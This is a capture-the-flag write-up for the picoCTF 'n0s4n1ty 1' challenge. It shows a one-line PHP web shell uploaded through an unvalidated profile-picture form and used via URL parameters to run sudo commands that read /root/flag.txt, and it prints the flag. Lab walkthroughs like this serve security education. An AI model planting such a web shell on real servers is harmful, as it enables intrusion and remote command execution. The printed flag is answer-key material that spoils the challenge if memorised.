 # n0s4n1ty 1

# Description
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.

# Solution


-  Exploring the website and the hints of the challenge  I realized that the website doesn't validate the file type and since it can show an image in the upload file I can use this e feature to execute php code to the server trough the next .php file.

``` php
# php file content
# name: image2.php
<?php system($_GET['cmd']); ?>
```

- Once I upload the file into the website and trying to acces the url of the file with the ```ls``` command I get the output of the command from the client side.

```bash
# URL 
http://standard-pizzas.picoctf.net:56024/uploads/image2.php?cmd=ls
# Output 
image2.php
```

-  Since now I can exec commands trough the value of cmd  in the url and in the challenge hints says  that the flag is located at ```/root/``` directory so I tried to use ```ls -la /root/``` but I didn't get any output but after trying with ```sudo``` I was able to see the files in the root directory and definitely there's a flag file.

```bash
# URL 
http://standard-pizzas.picoctf.net:56024/uploads/image2.php?cmd=ls -a /root/
# Output 
# (the output is blank)
# URL
http://standard-pizzas.picoctf.net:56024/uploads/image2.php?cmd=sudo ls -a /root/
# Output
. .. .bashrc .profile flag.txt

```

- Finally once I know the exact flag name I can show its contents using the ```cat``` command 

```bash
# URL
http://standard-pizzas.picoctf.net:56024/uploads/image2.php?cmd=sudo cat /root/flag.txt
# Output 
picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94}
```
